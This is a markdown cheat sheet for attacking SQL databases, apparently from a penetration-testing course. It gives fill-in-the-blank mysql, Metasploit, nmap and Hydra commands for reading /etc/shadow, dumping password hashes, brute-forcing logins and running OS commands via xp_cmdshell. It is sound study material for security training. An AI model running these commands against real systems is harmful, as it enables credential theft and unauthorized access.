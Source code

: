 # SQL

* [mysql](#mysql)
* [Metasploit](#metasploit)
* [nmap](#nmap)
* [Hydra](#hydra)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## mysql
```
mysql -h [IP-ADDRESS] -u [USERNAME]
```
```
show databases;
```
```
use [DATABASE];
```
```
show [TABLES];
```
```
select count(*) from [TABLE];
```
```
select * from [TABLE];
```
```
select load_file("/etc/shadow");
```
```
help
```

***********************************************************************

## Metasploit

### mysql
```
use auxiliary/scanner/mysql/mysql_writable_dirs
```
```
use auxiliary/scanner/mysql/mysql_hashdump
```
```
use auxiliary/scanner/mysql/mysql_login
```
show advanced options:
```
advanced
```

### MS SQL
```
use auxiliary/scanner/mssql/mssql_login
```
```
use auxiliary/scanner/admin/mssql/mssql_enum
```
```
use auxiliary/scanner/admin/mssql/mssql_enum_sql_logins
```
```
use auxiliary/scanner/admin/mssql/mssql_enum_sql_exec
```
```
use auxiliary/scanner/admin/mssql/mssql_enum_domain_accounts
```

***********************************************************************

## nmap

### mysql
* --script=mysql-empty-password
* --script=mysql-info
* --script=mysql-users --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-databases --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-variables --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-dump-hashes --script-args="mysqluser='[USERNAME]',mysqlpass='[PASSWORD]'"
* --script=mysql-query --script-args="query='select * from [TABLE];',username='[USERNAME]',password='[PASSWORD]'"
* --script=mysql-audit --script-args="mysql-audit.username='[USERNAME]',mysql-audit.password='[PASSWORD]',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"

### MS SQL
* --script ms-sql-info
* --script ms-sql-ntlm-info --script-args mssql.instance-port=[PORT]
   * Default port for MS SQL is 1433 
* --script ms-sql-brute --script-args userdb=[WORDLIST-PATH],passdb=[WORDLIST-PATH]
* --script ms-sql-empty-password
* --script ms-sql-query --script-args mssql.username=[USERNAME],mssql.password=[PASSWORD],ms-sql-query.query="SELECT * FROM [TABLE]" -oN [OUTPUT-FILE]
* --script ms-sql-dump-hashes --script-args mssql.username=[USERNAME],mssql.password=[PASSWORD]
* --script ms-sql-xp-cmdshell --script-args mssql.username=[USERNAME],mssql.password=[PASSWORD],ms-sql-xp-cmdshell.cmd="[COMMAND-YOU-WANT-TO-RUN]"

***********************************************************************

## Hydra
```
hydra -l [USERNAME] -P [WORDLIST-PATH] mysql
```

***********************************************************************

### References

Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
